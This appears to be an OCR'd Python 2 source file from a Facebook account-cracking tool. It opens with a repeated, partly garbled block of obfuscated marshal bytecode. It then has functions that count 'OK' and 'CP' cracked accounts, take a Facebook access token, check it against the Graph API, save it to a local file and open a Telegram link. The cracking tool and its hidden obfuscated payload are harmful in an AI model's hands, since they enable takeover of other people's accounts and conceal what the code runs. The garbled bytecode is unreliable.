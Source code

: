<module>\x10\x00\x00\x00s\x02\x00\x00\x00\x06\x04(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01(\x02\x00\x00\x00t\x07\x00\x00\x00marshalt\x05\x00\x00\x00loads(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00Sazxtt\x08\x00\x00\x00<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x0c\x01')

def seved_ok_cp(ok, cp):
    if len(ok) != 0 or len(cp) != 0:
        print '\n\x1b[1;97m-------------------------------------------------'
        print 'CRACK KRDN TAWAW BU !'
        print '[%s+%s] OK: %s%s%s' % (O, N, H, str(len(ok)), N)
        print '[%s+%s] CP: %s%s%s' % (O, N, K, str(len(cp)), N)
        print '\x1b[1;97m-------------------------------------------------'
        raw_input('[%s \x1b[1;97mPress Enter To Back Menu%s ] ' % (O, N))
        menu()
    else:
        print '[%s\x1b[1;91m!%s] opshh you are not getting saved :(' % (M, N)
        exit()


def mking():
    os.system('clear')
    print logo
    sultani = raw_input('%s[%s\x1b[1;92m?%s] TOKEN:%s ' % (N, M, N, H))
    print '\x1b[1;97m-------------------------------------------------'
    if sultani in ('open', 'Open', 'OPEN'):
        raw_input(' %s*%s ENTER ' % (O, N))
        mking()
    try:
        nama = requests.get('https://graph.facebook.com/me?access_token=%s' % sultani).json()['name']
        print '%s\x1b[0;92m*%s WELCOME BITCH %s%s%s' % (O, N, K, nama, N)
        time.sleep(2)
        print '\x1b[1;97m-------------------------------------------------'
        open('.login.txt', 'w').write(sultani)
        raw_input(' %s\x1b[0;92m*%s Press enter to continue tools ' % (O, N))
        mr___profaisor(sultani)
        os.system('xdg-open https://t.me/sultani1122')
        coment()
    except KeyError:
        print '%s[%s\x1b[0;92m!%s] token invalid' % (N, M, N)
        time.sleep(2)
        mking()
